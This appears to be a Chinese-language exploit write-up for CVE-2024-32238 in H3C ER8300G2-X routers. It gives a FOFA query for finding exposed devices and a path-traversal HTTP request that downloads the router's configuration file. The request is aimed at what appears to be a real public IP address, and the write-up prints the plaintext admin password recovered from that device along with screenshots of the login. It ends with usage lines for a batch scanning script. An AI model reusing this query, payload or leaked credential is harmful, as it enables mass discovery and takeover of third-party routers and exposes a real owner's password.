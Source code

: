 # CVE-2024-32238 H3C ER8300G2-X-密码泄露漏洞

### 1.漏洞简介

H3C ER8300G2-X易受不正确访问控制的影响。路由器管理系统的密码可以通过管理系统页面登录界面访问。

### 2.fofa语法

```plain
app="H3C-Ent-Router" && title=="ER8300G2-X系统管理"
```

### 3.漏洞复现

```plain
GET /userLogin.asp/../actionpolicy_status/../ER8300G2-X.cfg HTTP/1.1
Host: 14.216.242.238:2222
User-Agent: Mozilla/5.0 (X11; CrOS aarch64 15236.9.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Connection: close
Accept-Encoding: gzip
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1721907021719-6977e6c0-ebb0-4acf-b985-534cdd4bd7f6.png)

其中vtypasswd=Cheng81181852是密码

登录

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1721907105631-e1e9d6a9-5232-466a-bbbd-7fe8dddbdafc.png)

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1721907068937-50ae90d6-2e6b-4b36-aa03-fd5f2adafaf0.png)

### 4.py脚本

```plain
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```